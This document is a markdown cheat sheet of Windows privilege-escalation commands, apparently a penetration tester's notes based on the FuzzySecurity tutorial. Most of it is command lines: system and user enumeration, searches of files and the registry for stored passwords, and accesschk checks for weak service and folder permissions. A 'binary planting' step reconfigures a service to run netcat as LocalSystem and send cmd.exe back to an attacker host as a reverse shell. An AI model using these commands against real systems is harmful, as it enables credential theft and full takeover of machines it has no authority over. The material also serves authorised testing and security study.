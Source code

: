 # windows priv escalation

Ref: 

* [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)
* [https://www.youtube.com/watch?v=kMG8IsCohHA](https://www.youtube.com/watch?v=kMG8IsCohHA)
* [https://www.youtube.com/watch?v=\_8xJaaQlpBo](https://www.youtube.com/watch?v=_8xJaaQlpBo)
* [http://www.greyhathacker.net/?p=738](http://www.greyhathacker.net/?p=738)



* What system are we connected to? 
  * systeminfo \| findstr /B /C:"OS Name" /C:"OS Version"
* Get the hostname and username \(if available\) 
  * hostname 
  * echo %username%
* Get users 
  * net users 
  * net user \[username\]
* Networking stuff 
  * ipconfig /all
* Printer? 
  * route print
* ARP-arific 
  * arp -A
* Active network connections 
  * netstat -ano
* Firewall fun \(Win XP SP2+ only\) 
  * netsh firewall show state 
  * netsh firewall show config
* Scheduled tasks 
  * schtasks /query /fo LIST /v
* Running processes to started services 
  * tasklist /SVC 
  * net start
* Driver madness 
  * DRIVERQUERY
* WMIC fun \(Win 7/8 -- XP requires admin\) 
  * `wmic /?`
  * `#Use wmic_info script!`
* WMIC: check patch level 
  * wmic qfe get Caption,Description,HotFixID,InstalledOn
* Search pathces for given patch 
  * wmic qfe get Caption,Description,HotFixID,InstalledOn \| findstr /C:"KB.." /C:"KB.."
* AlwaysInstallElevated fun 
  * reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated 
  * reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
* Other commands to run to hopefully get what we need 
  * dir /s _pass_ == _cred_ == _vnc_ == _.config_ 
  * findstr /si password _.xml_ .ini \*.txt 
  * reg query HKLM /f password /t REG\_SZ /s 
  * reg query HKCU /f password /t REG\_SZ /s
* Service permissions 
  * sc query 
  * sc qc \[service\_name\]
* Accesschk stuff 
  * accesschk.exe /accepteula \(always do this first!!!!!\) 
  * accesschk.exe -ucqv \[service\_name\] \(requires sysinternals accesschk!\) 
  * accesschk.exe -uwcqv "Authenticated Users" \* \(won't yield anything on Win 8\) 
  * accesschk.exe -ucqv \[service\_name\]
  * Find all weak folder permissions per drive. 
    * accesschk.exe -uwdqs Users c: 
    * accesschk.exe -uwdqs "Authenticated Users" c:\
  * Find all weak file permissions per drive. 
    * accesschk.exe -uwqs Users c:\*.\*
    * accesschk.exe -uwqs "Authenticated Users" c:\.\*
* Binary planting 
  * sc config \[service\_name\] binpath= "C:\nc.exe -nv \[RHOST\] \[RPORT\] -e C:\WINDOWS\System32\cmd.exe" 
  * sc config \[service\_name\] obj= ".\LocalSystem" password= "" 
  * sc qc \[service\_name\] \(to verify!\) 
  * net start \[service\_name\]

Ref:  [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)

